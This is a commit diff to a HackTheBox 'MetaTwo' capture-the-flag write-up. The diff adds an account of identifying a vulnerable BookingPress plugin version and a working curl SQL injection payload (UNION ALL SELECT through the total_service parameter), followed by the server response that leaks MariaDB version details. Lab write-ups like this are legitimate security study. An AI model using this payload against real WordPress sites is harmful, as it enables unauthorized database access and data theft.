

Before and after one commit to e-war/Writeups, a Markdown page: HackTheBox/MetaTwo/README.MD, the part around the change. Shown at 91% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
sql injection found

````diff
--- a/HackTheBox/MetaTwo/README.MD
+++ b/HackTheBox/MetaTwo/README.MD
@@ -112,6 +112,41 @@ wpscan --url http://metapress.htb -e vp,vt --plugins-detection mixed
  | Last Updated: 2022-11-02T00:00:00.000Z
  | Readme: http://metapress.htb/wp-content/themes/twentytwentyone/readme.txt
  | [!] The version is out of date, the latest version is 1.7
+```
+these are interesting but after checking they don't offer any vulnerabilities in the way of unautorized access.
 
+i dont have a wpscan account, but we know of at least one plugin used (bookingpress), and it turns out that there is an SQL injection avaliable for a certain version, so lets check the version.
+
+Without having wpscan for this, i searched pages for links to http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking and came across many links that looked like '<link rel='stylesheet' id='bookingpress_fonts_css-css'  href='http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/css/fonts/fonts.css?ver=1.0.10' media='all' />'
+
+ver=1.0.10 which is within the bounds of the vulnerability! < 10.0.11
+https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357
+
+This page also gives a PoC
+it seems that with a nonce generated by the booking plugin you can access the action "bookingpress_front_get_catagory_services", along with providing the nonce, a "category id", and a value for "total service", within this last value, entering a ')' character will escape some string which is directly used in an SQL statement.
+
+So lets craft a payload!
 
 ```
+curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' -data 'action=bookingpress_front_get_category_services&_wpnonce=5c87274b9d&category_id=1&total_service=1) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
+```
+
+```
+HTTP/1.1 200 OK
+Server: nginx/1.18.0
+Date: Sun, 26 Feb 2023 13:59:39 GMT
+Content-Type: text/html; charset=UTF-8
+Transfer-Encoding: chunked
+Connection: keep-alive
+X-Powered-By: PHP/8.0.24
+X-Robots-Tag: noindex
+X-Content-Type-Options: nosniff
+Expires: Wed, 11 Jan 1984 05:00:00 GMT
+Cache-Control: no-cache, must-revalidate, max-age=0
+X-Frame-Options: SAMEORIGIN
+Referrer-Policy: strict-origin-when-cross-origin
+
+[{"bookingpress_service_id":"1","bookingpress_category_id":"1","bookingpress_service_name":"Startup meeting","bookingpress_service_price":"$0.00","bookingpress_service_duration_val":"30","bookingpress_service_duration_unit":"m","bookingpress_service_description":"Join us, we will celebrate our startup!","bookingpress_service_position":"0","bookingpress_servicedate_created":"2022-06-23 18:02:38","service_price_without_currency":0,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"},{"bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1","bookingpress_category_id":"Debian 11","bookingpress_service_name":"debian-linux-gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}]%
+```
+
+SQL INJECTION!
````
